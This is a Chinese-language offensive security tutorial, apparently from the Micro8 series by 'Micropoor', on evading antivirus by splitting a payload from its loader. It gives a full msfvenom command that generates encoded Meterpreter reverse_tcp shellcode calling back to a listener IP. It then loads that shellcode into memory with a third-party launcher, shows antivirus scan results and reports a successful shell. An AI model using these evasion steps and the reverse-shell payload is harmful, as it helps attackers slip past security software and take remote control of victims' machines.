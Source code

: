```yaml
---
title: 47、payload分离免杀思路
date: 2019-09-21 19:05:20
comments: true
categories: 
 - Micro8系列
---
```



目前的反病毒安全软件，常见有三种，一种基于特征，一种基于行为，一种基于云查杀。云查杀的特点基本也可以概括为特征查杀。无论是哪种，都是特别针对 PE 头文件的查杀。尤其是当 payload 文件越大的时候，特征越容易查杀。

既然知道了目前的主流查杀方式，那么反制查杀，此篇采取特征与行为分离免杀。避免 PE 头文件，并且分离行为，与特征的综合免杀。适用于菜刀下等场景，也是我在基于 windows 下为了更稳定的一种常用手法。载入内存。

### 0x00:以msf为例：监听端口  
![](../do/media/e443cf6dc02a20a342291d5c06ccec4f.jpg)

### 0x01：这里的payload不采取生成pe文件，而采取shellcode方式，来借助第三方直接加载到内存中。避免行为：

```code
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.5 lport=8080 -e x86/shikata_ga_nai -i 5 -f raw > test.c
```
![](../do/media/1a912494f05f8ca99edf268225e1a66f.jpg)

### 0x02:既然是shellcode方式的payload，那么一定需要借助第三方来启动，加载到内存。执行shellcode，自己写也不是很难，这里我借用一个github一个开源：  
https://github.com/clinicallyinane/shellcode_launcher/

**作者的话：建议大家自己写shellcode执行盒，相关代码网上非常成熟。如果遇到问题，随时可以问我。**  

![](../do/media/168b6471db08e03cbca360642e0bcb0c.jpg)

生成的payload大小如下：476字节。还是 X32位的 payload。  
![](../do/media/92ab172a1914132282d7a5bfd14ab31d.jpg)

国内世界杀毒网：  
![](../do/media/7749133623a7d6b774e000605ce77a57.jpg)

国际世界杀毒网：  
![](../do/media/663bc4d955c71bf9882c9a31761e0c14.jpg)

上线成功。  
![](../do/media/be28c1202684af6369757b813f4d9649.jpg)


>   Micropoor
